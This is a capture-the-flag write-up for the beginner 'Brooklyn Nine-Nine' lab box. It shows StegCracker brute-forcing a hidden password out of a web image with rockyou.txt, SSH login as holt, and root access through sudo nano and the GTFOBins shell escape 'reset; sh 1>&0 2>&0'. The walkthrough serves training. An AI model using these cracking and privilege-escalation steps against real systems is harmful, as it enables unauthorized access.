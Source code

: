 # Brooklyn Nine-Nine
Though the name of this room refers to one of the globally famous series, it does not have anything to do with solving the box. To be honest, this room is a really easy box once you get the initial foothold. Marked as beginner, this box is truly beginner-friendly and very easy to solve. 

This box can be solved in two ways, I'll be explaining one of them. In this path, we'll be using mainly Steghide and GTFOBins. So, let's get started!

### Initial Foothold
Once the machine gets deployed, we can go `http://<machine_ip>` and see that there is an auto-sizing Brooklyn Nine-Nine poster that adjusts its size to our browser's window size. Which looks like:

![homepage_poster](./.images/homepage_poster.png)

For any webpage, the first thing that we can do is check out it's source-code and over there we can see a hint related to `steganography`.

![source-code](./.images/source_code.png)

Now, we can think like we have an image and a hint towards steganography. So, we can download the image and see if there is something hidden inside it. We can use `Steghide` to uncover the hidden data:

```
tester@kali:~/Downloads$ steghide extract -sf brooklyn99.jpg 
Enter passphrase: 
steghide: can not uncompress data. compressed data is corrupted.
```

Steghide was not able to retrieve the data from the image, so we can try to do the same with `StegCracker`. If StegCracker is not present on your machine, it can be downloaded using the command `sudo apt install stegcracker`.

We can pass on a wordlist to StegCracker which it uses to attack the target file and if the wordlist is not passed on then it by default uses the rockyou.txt to attack the target file.

```
tester@kali:~/Downloads$ stegcracker brooklyn99.jpg 
StegCracker 2.0.9 - (https://github.com/Paradoxis/StegCracker)
Copyright (c) 2020 - Luke Paris (Paradoxis)

No wordlist was specified, using default rockyou.txt wordlist.
Counting lines in wordlist..
Attacking file 'brooklyn99.jpg' with wordlist '/usr/share/wordlists/rockyou.txt'..
Successfully cracked file with password: admin
Tried 20395 passwords
Your file has been written to: brooklyn99.jpg.out
admin
```

We can see that the file has been cracked and the data has been written to a new file. 

```
tester@kali:~/Downloads$ cat brooklyn99.jpg.out 
Holts Password:
*******************

Enjoy!!
```

Now, we have the user credentials that we can try to use with SSH. Keep in mind that the username is `holt` and I've hid the password with `*`.

```
tester@kali:~$ ssh holt@10.10.182.115
The authenticity of host '10.10.182.115 (10.10.182.115)' can't be established.
ECDSA key fingerprint is SHA256:Ofp49Dp4VBPb3v/vGM9jYfTRiwpg2v28x1uGhvoJ7K4.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.182.115' (ECDSA) to the list of known hosts.
holt@10.10.182.115's password: 
Last login: Tue May 26 08:59:00 2020 from 10.10.10.18
holt@brookly_nine_nine:~$ cat user.txt 
*******************************
```

And we got the `user.txt` flag. Now, the next task is to get the root access for which we need to perform privilege escalation.

### Privilege Escalation
As we have already logged in as holt, we need to become root to get the second flag. We can check the commands that can be executed as user holt. To do this we can use the command `sudo -l` to list all the commands that we can execute as root.

```
holt@brookly_nine_nine:~$ sudo -l
Matching Defaults entries for holt on brookly_nine_nine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User holt may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /bin/nano
```

We can see that the command `/bin/nano` can be executed as 'root' by user 'holt'. So, we can check if there are any [GTFOBins](https://gtfobins.github.io/gtfobins/nano/) for `nano`. We can run the commands as described in GTFOBins and get the shell access as root.

First, we need to enter the `nano editor` with sudo privilege using the command:

```
holt@brookly_nine_nine:~$ sudo /bin/nano
```

Once, we get into the editor we need to press Ctrl+R and then Ctrl+X and then we can execute the command `reset; sh 1>&0 2>&0`. This will give us a root shell using which we can read the `root.txt` from `/root` directory.

![privesc](./.images/privesc.gif)

Now we can take the flag from `root.txt` and submit it as the flag for the second question. With this, we have solved the `Brooklyn Nine-Nine` room!

## Some Key Points to Take Away
1. Whenever you have access to a webpage, check it's source-code for any kind of `Sensitive Information Disclosure`.
2. If you have an image, try to check it for steganography with Steghide or StegCracker.
3. For PrivEsc, always run the command `sudo -l` to check what commands can be executed with sudo privilege by the user and then look up how that command can be exploited using `GTFOBins`.
